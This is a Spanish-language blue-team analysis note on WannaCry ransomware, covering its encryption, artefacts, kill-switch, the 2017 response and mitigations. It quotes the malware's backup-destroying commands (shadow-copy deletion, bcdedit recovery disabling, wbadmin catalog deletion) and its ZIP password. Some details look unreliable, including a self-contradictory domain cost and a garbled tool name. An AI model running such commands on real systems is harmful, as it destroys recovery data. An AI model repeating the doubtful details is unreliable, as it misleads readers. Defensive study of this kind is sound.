

---

### 🔐 Fase de Cifrado: RSA, AES y Sabotaje del Sistema

Cuando `tasksche.exe` se ejecuta con el modificador `/i`, extrae un archivo ZIP embebido protegido mediante la contraseña:

```
WNcry@2ol7
```

Este archivo contiene todos los componentes necesarios para el cifrado y la comunicación con la infraestructura del atacante.

El esquema criptográfico utilizado combina dos algoritmos:

- **RSA-2048**, empleado para proteger la clave AES generada para cada archivo.
- **AES-128 en modo CBC**, utilizado para cifrar el contenido de cada archivo de manera individual.

El procedimiento puede resumirse así:

1. Se genera una clave AES única para cada archivo.
2. El archivo se cifra utilizando AES-128-CBC.
3. La clave AES se cifra mediante la clave pública RSA embebida.
4. La clave privada necesaria para recuperar los datos permanece únicamente en poder del atacante.

Antes de iniciar el cifrado masivo, WannaCry crea el mutex:

```
Global\MsWinZonesCacheCounterMutexA
```

Este mutex evita la ejecución simultánea de múltiples instancias del ransomware sobre el mismo sistema.

Posteriormente intenta finalizar procesos que podrían mantener archivos abiertos, incluyendo:

- `sqlserver.exe`
- `mysqld.exe`
- Servicios de Microsoft Exchange
- Otros procesos relacionados con bases de datos y correo electrónico.

Como mecanismo adicional para impedir la recuperación del sistema, ejecuta los siguientes comandos:

```cmd
vssadmin delete shadows /all /quiet
wmic shadowcopy delete
bcdedit /set {default} bootstatuspolicy ignoreallfailures
bcdedit /set {default} recoveryenabled no
wbadmin delete catalog -quiet
```

Estas instrucciones eliminan las **Shadow Copies**, deshabilitan opciones de recuperación del sistema y eliminan el catálogo de copias de seguridad de Windows.

---

### 🗄️ Inventario de Artefactos

Después de la infección se generan numerosos archivos que forman parte de la infraestructura interna del ransomware.

#### 1. Componentes de idioma

- Carpeta `msg/`
  - Contiene archivos `.wnry` con los mensajes traducidos para distintos idiomas.
- `@Please_Read_Me@.txt`
  - Nota de rescate distribuida en los directorios afectados.

#### 2. Infraestructura criptográfica

Archivos:

- `00000000.pky`
- `00000000.eky`
- `00000000.res`

Funciones:

- `.pky`: clave pública utilizada durante la sesión.
- `.eky`: clave privada local cifrada con la clave maestra del atacante.
- `.res`: información relacionada con el estado del proceso de cifrado.

#### 3. Recursos del ransomware

- `b.wnry` → Imagen utilizada como fondo de pantalla.
- `c.wnry` → Configuración interna con direcciones Bitcoin y dominios `.onion`.
- `r.wnry` → Nota de rescate.
- `u.wnry` → Ejecutable del descifrador.
- `s.wnry` → Cliente TOR y bibliotecas asociadas.
- `t.wnry` → DLL cifrada (`kbdlv.dll`) que contiene la lógica principal del cifrado.

#### 4. Procesos auxiliares

- `taskdl.exe`
  - Elimina archivos temporales `.WNCRYT`.
- `taskse.exe`
  - Ejecuta `@WanaDecryptor@.exe`.
- `@WanaDecryptor@.exe`
  - Interfaz gráfica mostrada a la víctima.


#### 5. Comunicación mediante TOR

La carpeta `TaskData/` contiene `tor.exe` y las bibliotecas necesarias para establecer comunicación con la infraestructura de comando y control (C2) mediante la red TOR.

---

### 🧪 Mutación de Archivos

Como evidencia del proceso de cifrado, el archivo de control:

```
prueba.txt
```

pasó a convertirse en:

```
prueba.txt.txt.WNCRY
```

Además, WannaCry generó un archivo auxiliar:

```
172271782952269.bat.WNCRY
```

El comportamiento observado durante el análisis coincide con investigaciones previas:

- Los archivos ubicados en directorios considerados importantes (Escritorio, Documentos, etc.) son sobrescritos antes de eliminarse, dificultando su recuperación.
- Los archivos localizados en otras rutas pueden trasladarse temporalmente a `%TEMP%` con extensión `.WNCRYT`, lo que en algunos casos permite su recuperación mediante herramientas forenses especializadas.

---

### 👇 Flujo general de infeccion de Wannacry



---

### 📎 Características Menores y Curiosidades de Diseño

Dentro del análisis dinámico de la interfaz gráfica de **Wana Crypt0r 2.0**, existen dos componentes inusuales que llaman la atención por su diseño operativo, asemejándose más a un servicio de atención al cliente corporativo (*Help Desk*) que a un software criminal tradicional.

---

#### 1. El Sistema de Soporte Técnico Integrado ("Contact Us")
En la esquina inferior izquierda de la interfaz roja, el malware incluye un hipervínculo que abre un cuadro de diálogo para enviar mensajes directos a los desarrolladores. 

* **El Propósito Teórico:** Diseñado originalmente como un canal de soporte para negociar el precio del rescate, enviar pruebas de pago o solicitar asistencia técnica si la víctima no sabía cómo comprar Bitcoins.
* **La Realidad Operativa:** Durante la epidemia global, **nunca se registró una respuesta real** por parte de los atacantes a través de este módulo. Debido a que el malware se propagó de forma masiva y descontrolada (actuando como gusano autónomo), los servidores de comando y control (`.onion`) colapsaron bajo el peso del tráfico mundial, dejando este sistema de mensajería completamente inútil y desatendido.

---

#### 2. El Botón de Descifrado Gratuito de Prueba ("Decrypt")
La interfaz cuenta con un botón interactivo que permite a la víctima descifrar una pequeña selección de archivos de forma totalmente gratuita y sin conexión a internet.

* **La Estrategia Psicológica (Ingeniería Social):** El objetivo de esta función es **generar confianza** en la víctima. Al demostrar que el software realmente posee la capacidad técnica de revertir el algoritmo AES-128 y devolver los archivos intactos, los atacantes buscaban incentivar el pago de los 300 dólares en Bitcoin, eliminando el temor común de *"si pago, igual no me van a devolver nada"*.
* **El Mecanismo Técnico Oculto:** Para que esto funcione sin que el usuario pague, el *dropper* incluye dentro de sus archivos de soporte (`.wnry`) un puñado de archivos de demostración pre-seleccionados o genera llaves AES temporales expuestas únicamente para archivos cuyo tamaño sea ridículamente pequeño (normalmente unos pocos kilobytes), permitiendo al descifrador local liberarlos como "muestra de buena fe" sin comprometer la clave maestra de la sesión (`00000000.eky`).

---

## 🛑 La Contención de la Primera Variante: El Descubrimiento del Kill-Switch

A medida que el caos se extendía durante el **12 de mayo de 2017**, la comunidad global de inteligencia de amenazas trabajaba a contrarreloj. El objetivo inicial era doble: localizar la infraestructura de comando y control del grupo atacante y, de forma más urgente, hallar alguna falla lógica o brecha estructural en el código del ransomware que permitiera frenar su propagación descontrolada.

---

### 🔍 El Hallazgo Accidental de Marcus Hutchins (*MalwareTech*)

La respuesta a la crisis llegó desde un entorno de análisis dinámico residencial en el Reino Unido. El investigador de seguridad de 22 años, **Marcus Hutchins** (conocido bajo el alias *MalwareTech*), se encontraba diseccionando la muestra principal de WanaCryptor 2.0 cuando detectó una anomalía en las solicitudes de red del *dropper*.

Antes de iniciar cualquier rutina de cifrado local o lanzar los hilos de explotación SMB (`EternalBlue`), el código realizaba una petición HTTP GET dirigida a un dominio web extremadamente largo, aparentemente aleatorio y sin registrar:

`iuqerfsodp9ifjaposdfjhgosurijfaewrwergwea[.]com`

Al analizar el flujo de la función, Hutchins decodificó la condición lógica implementada por los desarrolladores mediante la librería `WinINet`:

* **Si el dominio NO responde (Petición = 0):** El malware asume que está en una máquina real conectada a una red ordinaria donde ese dominio no existe. Por lo tanto, continúa su ejecución: cifra el disco duro y se propaga como gusano.
* **Si el dominio SÍ responde (Petición = 1):** El malware detiene sus procesos inmediatamente y se auto-elimina sin causar daños.


> 💡 **¿Por qué los atacantes incluyeron esto?** Existen dos teorías principales. La primera es que actuaba como un mecanismo de evasión de *sandboxes* (entornos virtuales de análisis utilizados por antivirus). Muchas sandboxes simulan que todo internet está disponible respondiendo "sí" a cualquier petición web; al recibir respuesta, el malware se "dormía" para no ser detectado como malicioso. La segunda teoría es que era un interruptor de apagado de emergencia diseñado por los propios creadores en caso de perder el control de su propia creación.

---

### 💳 Una Inversión de 5 Dólares que Salvó Redes Globales

Al percatarse de que el dominio listado en el código fuente estaba completamente libre, Marcus Hutchins tomó una decisión crítica: **compró y registró el dominio a su nombre por un costo de tan solo $10.69 USD** (aproximadamente 5 dólares en tarifas base de la época) y lo apuntó hacia un *sinkhole* (un servidor seguro diseñado para capturar y analizar tráfico malicioso).

En el mismo instante en que el dominio se propagó por los servidores DNS globales y comenzó a responder activamente con un código HTTP válido, **la primera variante de WannaCry se congeló a nivel mundial**. Cada nueva máquina expuesta que recibía el virus consultaba el dominio, recibía la respuesta del servidor de Hutchins y abortaba la infección de forma automática. Esto otorgó a los administradores de sistemas un respiro crítico para comenzar a implementar defensas.

---

### ⚠️ La Reacción Institucional: Alerta del US-Security

Casi en paralelo al freno del vector de contagio, los organismos de seguridad nacional reaccionaron para mitigar el riesgo residual. El **US-CERT** (Equipo de Respuesta ante Emergencias Informáticas de los Estados Unidos), en colaboración con el FBI y el personal de ciberseguridad del Reino Unido, emitió una alerta técnica de emergencia urgente sobre WannaCry. 

El boletín institucional instruía formalmente a corporaciones y usuarios comerciales a ejecutar tres acciones inmediatas antes de volver a conectar sus equipos a las redes de producción:
1. Aplicar de forma obligatoria el parche de seguridad **MS17-010** de Microsoft.
2. Configurar reglas perimetrales en los firewalls para bloquear por completo el tráfico en el puerto **445/TCP**.
3. Mantener bajo ninguna circunstancia el bloqueo o aislamiento de las peticiones hacia el dominio *kill-switch* recién registrado, ya que cualquier interrupción en esa resolución DNS reactivaría el potencial destructivo del malware en redes internas no parcheadas.



## 🛡️ Medidas de Restricción y la Contrarreforma Criminal (13 de Mayo)

El **13 de mayo de 2017** se convirtió en el día de la contraofensiva. Con la primera oleada del ataque mitigada temporalmente gracias al *kill-switch*, tanto la industria tecnológica como los propios desarrolladores del ransomware movieron sus piezas en una carrera armamentística contrarreloj.

---

### 🚨 La Respuesta Sin Precedentes de Microsoft

Ante la gravedad de la crisis y el colapso de infraestructuras críticas (como hospitales y redes ferroviarias), Microsoft tomó una decisión histórica y sumamente inusual en sus políticas de soporte técnico. 

La compañía obligó a todos los usuarios activos a instalar el parche **MS17-010**, clasificándolo como una actualización crítica de máxima prioridad en los servidores de Windows Update. Sin embargo, el movimiento más drástico fue la liberación de parches de seguridad extraordinarios (*out-of-band*) para **sistemas operativos obsoletos y sin soporte oficial**. 

Microsoft rompió sus propias reglas comerciales y programáticas para proteger los sistemas heredados que alimentaban los nodos vulnerables del planeta:

* **Windows XP** (Soporte estándar finalizado en 2014)
* **Windows Server 2003**
* **Windows Vista**
* **Windows 8**

Esta acción masiva detuvo el vector de explotación del protocolo SMBv1 a escala global, cerrando la vulnerabilidad **CVE-2017-0144** incluso en plataformas que llevaban años desahuciadas.

---

### ⚔️ La Reacción de los Atacantes: Guerra en la Red y Nuevas Variantes

Los creadores de WannaCry (asociados a *Lazarus Group*) no se quedaron de brazos cruzados al ver que su campaña multimillonaria había sido congelada por un registro de dominio de solo 5 dólares. Al percatarse de la activación del *kill-switch*, iniciaron una contraofensiva técnica inmediata:

1. **Mutaciones de Dominio (Variantes 2.1 / 2.2):** Los atacantes compilaron rápidamente nuevas muestras del *dropper* modificando el código fuente para que apuntara a URLs de emergencia completamente distintas.
2. **Campañas de Denegación de Servicio (DDoS):** Para intentar revivir la primera variante masiva, lanzaron ataques distribuidos de denegación de servicio contra el servidor *sinkhole* administrado por Marcus Hutchins. El objetivo era tumbar la página web del *kill-switch*; si el servidor dejaba de responder debido a la saturación, las muestras originales de WannaCry distribuidas por el mundo volverían a interpretar que el dominio no existía (Petición = 0) y reanudarían el cifrado destructivo.
3. **Muestras "Stripped" (Sin Kill-Switch):** Se detectaron variantes modificadas donde los atacantes eliminaron por completo la función de comprobación de red `WinINet`. Estas versiones omitían el interruptor de apagado y saltaban directamente a la fase de cifrado local.

---

### 🛡️ El Blindaje de las Firmas de Antivirus

Afortunadamente para la defensa, la ventana de oportunidad de los atacantes se redujo de manera drástica. Para el 13 de mayo, prácticamente la totalidad de las empresas globales de ciberseguridad y antivirus (Symantec, Kaspersky, McAfee, Windows Defender, entre otras) ya habían obtenido muestras físicas de los binarios.

Las casas de antivirus integraron las firmas criptográficas (Hashes MD5, SHA-256) y reglas heurísticas de WannaCry en sus bases de datos globales de forma automatizada. 

* **Impacto Inmediato:** Cualquier intento de lanzar las nuevas variantes modificadas o variantes sin *kill-switch* a través de campañas de phishing empezó a ser detectado en tiempo real. Los motores de protección perimetral y de endpoint interceptaban los binarios en caliente, enviándolos a **cuarentena automática** antes de que pudieran registrarse como servicios del sistema o abrir los puertos de escaneo de red.

---

## 🛡️ Contramedidas Especializadas: El Proyecto PayBreak (15 de Mayo)

Hacia el **15 de mayo de 2017**, con la epidemia bajo control pero con millones de máquinas aún infectadas y bloqueadas, los esfuerzos de la comunidad científica y de ciberseguridad se movieron de la prevención hacia la **recuperación de datos sin pagar el rescate**. 

En este contexto destaca el desarrollo y publicación de investigaciones y herramientas especializadas de descifrado reactivo, siendo una de las propuestas académicas y técnicas más relevantes el framework **PayBreak**.

---

### ⚙️ ¿Qué era PayBreak y cómo funcionaba?

A diferencia de un antivirus tradicional basado en firmas que se limita a interceptar y borrar el archivo malicioso (lo cual no sirve de nada si tus archivos ya están cifrados), **PayBreak** fue diseñado como un sistema de defensa proactivo y una herramienta de "vacuna criptográfica" contra el ransomware de cifrado híbrido como WannaCry.

Su estrategia técnica se estructuraba en los siguientes pilares:

1. **Intercepción de Funciones Criptográficas (Hooking):** PayBreak operaba implementando ganchos (*hooks*) en el sistema operativo para vigilar las funciones de las librerías criptográficas estándar (como la CryptoAPI de Windows). Cuando un ransomware intentaba generar claves simétricas en caliente, PayBreak detectaba la llamada en tiempo real.
2. **Secuestro de Claves Dinámicas:** Al procesar la solicitud de cifrado del malware, PayBreak realizaba una copia de seguridad interna de la clave simétrica (en el caso de WannaCry, la clave AES-128 generada por cada archivo) antes de que el ransomware pudiera cifrar dicha clave con su clave pública RSA-2048.
3. **Bóveda de Recuperación Segura:** Esas claves extraídas se almacenaban de forma segura en un llavero protegido local. Si el ransomware completaba el secuestro del equipo, la víctima no necesitaba la clave privada de los atacantes; bastaba con ejecutar el módulo de descifrado de PayBreak, el cual usaba el llavero de claves retenidas para revertir el algoritmo AES y recuperar los archivos intactos.

---

### 💡 El Legado de las Herramientas de Descifrado del 15 de Mayo

Aunque PayBreak requería estar instalado *antes o durante* el proceso de infección para interceptar las claves en memoria, abrió el camino para que otros criptólogos e investigadores lanzaran herramientas de descifrado de emergencia en esas mismas fechas (como los famosos proyectos **WanaKiwi** y **Wana公開** desarrollados entre el 14 y el 18 de mayo).

Estas herramientas aprovecharon una vulnerabilidad crítica en la implementación criptográfica de Windows XP y Windows 7: cuando WannaCry utilizaba la función `CryptReleaseContext`, los números primos utilizados para generar las claves privadas RSA locales no siempre se borraban físicamente de la memoria RAM, sino que quedaban en un estado "huérfano". Si el usuario no reiniciaba la computadora infectada, estas herramientas escaneaban la memoria volatil, recuperaban los primos y reconstruían la clave privada para descifrar todo el disco duro de forma 100% gratuita.

### 🧩 Atribución: Relación con Lazarus Group

Diversas investigaciones realizadas por Google, Kaspersky y otros laboratorios de seguridad encontraron similitudes entre una variante temprana de WannaCry y el backdoor **Contopee**, previamente atribuido al grupo **Lazarus**.

Una de las coincidencias más relevantes corresponde a una rutina prácticamente idéntica utilizada para la generación de buffers aleatorios.

Al tratarse de similitudes a nivel de implementación y no únicamente de comportamiento, este hallazgo continúa siendo uno de los principales argumentos utilizados para relacionar WannaCry con Lazarus Group.

Aunque la atribución nunca ha sido demostrada de forma definitiva, actualmente existe un amplio consenso dentro de la comunidad de ciberseguridad que vincula el ransomware con dicho actor de amenazas.

---

### 🛡️ Recomendaciones de Mitigación

- Aplicar el parche **MS17-010** en todos los sistemas vulnerables, incluidos aquellos que recibieron actualizaciones extraordinarias como Windows XP y Windows Server 2003.
- Bloquear los puertos **137**, **139**, **445** y **3389** cuando no sean estrictamente necesarios.
- Deshabilitar **SMBv1** siempre que sea posible.
- Mantener una estrategia de copias de seguridad desconectadas de la red.
- Implementar segmentación de red para limitar la propagación lateral.
- Mantener actualizado el software antivirus y las soluciones EDR.
- Para variantes que aún lo utilizan, mantener accesible el dominio **kill-switch**, ya que impide la ejecución del ransomware al responder correctamente la consulta realizada por el malware.

## 👁️ Conclusión: El Efecto Mariposa de la Inseguridad

Como cierre de esta investigación, el caso de WannaCry demuestra de forma perfecta cómo en el ecosistema de la ciberseguridad, un solo fallo o descuido inicial puede desencadenar consecuencias globales catastróficas. Este escenario se asemeja a un verdadero "efecto mariposa" digital.

El desastre informático global de 2017 se construyó sobre una cadena de negligencias que pudo haberse evitado desde múltiples frentes:
1. **Fuga de la Inteligencia Militar:** Las agencias gubernamentales (como la NSA/CIA) fallaron en asegurar sus propios arsenales de ciberarmas, permitiendo que exploits de nivel militar cayeran en manos de grupos cibercriminales.
2. **Políticas de Actualización Pasivas:** Microsoft emitió parches a tiempo, pero el paradigma de actualización no era lo suficientemente restrictivo u obligatorio para mitigar amenazas de propagación autónoma antes de que fuera demasiado tarde.
3. **Carencia de Gestión de Activos en Empresas:** La mayoría de las corporaciones e infraestructuras críticas afectadas carecían por completo de políticas de gestión de vulnerabilidades y planes de actualización de sistemas operativos obsoletos.

Este hito histórico nos deja una lección crítica vigente hasta el día de hoy: constantemente se descubren nuevas vulnerabilidades de día cero (*zero-days*) que los atacantes pueden empaquetar y explotar de forma automatizada en cuestión de días u horas. Mantener los sistemas completamente actualizados y blindados, por más mínima o insignificante que parezca una actualización de seguridad, es la única línea de defensa real frente al panorama de amenazas moderno.

---

## 📚 Referencias

* **Evolución del Ransomware:** s4vitar. (2022, 12 diciembre). *La HISTORIA y EVOLUCIÓN de los RANSOMWARE* [Vídeo]. YouTube. https://www.youtube.com/watch?v=tOFzERkOg1s
* **Wannacry y su cronología:** VMalware Archives. (2023, 15 abril). *WannaCry y la cronología de un ciberataque* [Vídeo]. YouTube. https://www.youtube.com/watch?v=ojfLdNhuAXM
* **Lista de vulnerabilidades de CISA (US-CERT):** *Known Exploited Vulnerabilities Catalog | CISA*. (2026, July 1). https://www.cisa.gov/known-exploited-vulnerabilities-catalog-print
* **Descripción de la vulnerabilidad CVE-2017-0144:** CVE Program. (2017, 14 de marzo). *CVE-2017-0144*. CVE Record. https://www.cve.org/CVERecord?id=CVE-2017-0144
* **Código EternalBlue Windows 7 / Windows Server 2008 R2:** Sleepya. (2017, 17 mayo). *Microsoft Windows 7/2008 R2 - «EternalBlue» SMB Remote Code Execution (MS17-010)*. Exploit Database. https://www.exploit-db.com/exploits/42031
* **Explicación EternalBlue:** SentinelOne. (2025, 27 abril). *EternalBlue Exploit: What It Is And How It Works*. SentinelOne. https://www.sentinelone.com/blog/eternalblue-nsa-developed-exploit-just-wont-die/
* **Wannacry Primitivo:** S!Ri. (2017, 10 febrero). *#Ransom 9C7C7149387A1C79679A87DD1BA755BC https://t.co/DjFbJib5zD*. X (Formerly Twitter). https://x.com/siri_urz/status/830008052954890242
* **Parche de seguridad para Windows:** BetaFred. (s. f.). *Boletín de seguridad de Microsoft MS17-010: crítico*. Microsoft Learn. https://learn.microsoft.com/es-es/security-updates/securitybulletins/2017/ms17-010
* **Wannacry Primitivo 2.0:** Hahn, K. (2017, 27 marzo). *#WannaCry #ransomware (9/61) https://t.co/ElGfsWAnWj https://t.co/1aIcYAIqqb*. X (Formerly Twitter). https://x.com/struppigel/status/846241982347427840
* **DoublePulsar:** *DoublePulsar SMB Scan*. (s. f.). https://www.extrahop.com/resources/detections/doublepulsar-smb-scan
* **WannaCry 2.0:** MalwareHunterTeam. (2017, 12 mayo). *There is a new version of WCry/WannaCry ransomware: «WanaCrypt0r 2.0». Extension: .WNCRY Note: @Please_Read_Me@.txt @BleepinComputer https://t.co/tdq0OBScz4*. X (Formerly Twitter). https://x.com/malwrhunterteam/status/862946459376857088
* **Descripción técnica de WannaCry 2.0:** Sneddon, J. (s.f.). *Reverse engineering WannaCry worm anti-exploit Snort rules*. GIAC Certifications. https://www.giac.org/paper/grem/5549/reverse-engineering-wannacry-worm-anti-exploit-snort-rules/165237
* **Alerta mundial de WannaCry:** *Indicators Associated with WannaCry Ransomware | CISA*. (2017, May 12). Cybersecurity and Infrastructure Security Agency CISA. https://www.cisa.gov/news-events/alerts/2017/05/12/indicators-associated-wannacry-ransomware

---

## 🤖 Declaración de Uso de IA

Para el desarrollo, traducción, estructuración y optimización de este cuerpo documental enfocado a Obsidian Markdown, se utilizaron dos modelos de Inteligencia Artificial:

1. **Gemini (Google):** Utilizado como el motor principal para el procesamiento del lenguaje natural, reestructuración estilística de los apuntes, organización semántica y optimización del código Markdown/Tablas.
2. **Claude (Anthropic):** Utilizado de forma auxiliar para la conceptualización de los flujos analíticos internos correspondientes a los exploits EternalBlue y DoublePulsar.

[[1- ANÁLISIS DE AMENAZAS (BLUE TEAM)|⬅️ Volver a 1- ANÁLISIS DE AMENAZAS (BLUE TEAM)]]